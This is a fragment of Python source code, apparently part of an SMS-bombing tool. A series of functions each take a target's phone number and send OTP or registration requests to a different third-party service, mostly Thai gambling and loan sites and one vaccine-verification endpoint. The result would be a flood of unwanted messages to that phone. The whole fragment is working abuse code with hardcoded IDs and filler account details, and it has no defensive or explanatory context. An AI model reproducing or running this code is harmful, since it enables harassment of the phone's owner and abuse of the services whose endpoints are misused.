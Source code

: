     post("https://m.riches666.com/api/register-otp", data={"brands_id":"60a6563a232a600012521982","agent_register":"60a76a7f233d2900110070e0","tel":phone})

    

def api42(phone):

    post("https://www.pruksa.com/member/member_otp/re_create",headers=header,data=f"required=otp&mobile={phone}")

    

def api43(phone):

    post("https://vaccine.trueid.net/vacc-verify/api/getotp",headers=header,json={"msisdn":phone,"function":"enroll"})

    

def api44(phone):

    post("https://ufa108.ufabetcash.com/api/",headers=header,data=f"cmd=request_form_register_detail_check&web_account_id=36&auto_bank_group_id=1&m_name=sl&m_surname=ak&m_line=snsb1j&m_bank=4&m_account_number=8572178402&m_from=41&m_phone={phone}")

def api45(phone):

    post("https://www.mrcash.top/h5/LoginMessage_ultimate",data = {"phone": phone,"type":"2","ctype":"1"})

    

def api46(phone):

    post("https://www.qqmoney.ltd/jackey/sms/login",json = {"appId":"5fc9ff297eb51f1196350635","companyId":"5fc9ff12197278da22aff029","mobile": phone},headers={"Content-Type": "application/json;charset=UTF-8"})

def api47(phone):

    post("https://www.monomax.me/api/v2/signup/telno",json ={"password":"12345678+","telno": phone})

def api48(phone):

    post("https://m.pgwin168.com/api/register-otp",json ={"brands_id":"60e4016f35119800184f34a5","agent_register":"60e57c3b2ead950012fc5fba","tel": phone})

def api49(phone):

    post("https://www.som777.com/api/otp/register",json ={"applicant": phone,"serviceName":"SOM777"})

    

def api50(phone):

    post("https://www.konglor888.com/api/otp/register",json = {"applicant": phone,"serviceName":"KONGLOR888"})

def api51(phone):

    get("https://api.quickcash8.com/v1/login/captcha?timestamp=1636359633&sign=3a11b88fbf58615099d15639e714afcc&token=&version=2.3.2&appsFlyerId=1636346593405-2457389151564256014&platform=android&channel_str=&phone="+phone+"&img_code=", headers = {"Host": "api.quickcash8.com", "Connection": "Keep-Alive", "Accept": "gzip", "User-Agent": "okhttp/3.11.0"})
